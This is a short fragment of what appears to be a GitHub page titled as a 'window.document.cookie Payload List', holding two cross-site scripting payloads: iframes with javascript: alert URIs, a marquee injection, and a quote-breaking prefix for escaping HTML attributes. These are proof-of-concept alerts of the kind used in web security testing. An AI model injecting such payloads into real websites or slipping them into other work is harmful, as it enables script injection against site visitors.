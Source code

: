 #### window.document.cookie Payload List :

```











<iframe src="javascript:alert('XSS by \nxss');"></iframe><marquee><h1>XSS by xss</h1></marquee>


"><h1><IFRAME SRC="javascript:alert('XSS');"></IFRAME>">123</h1>














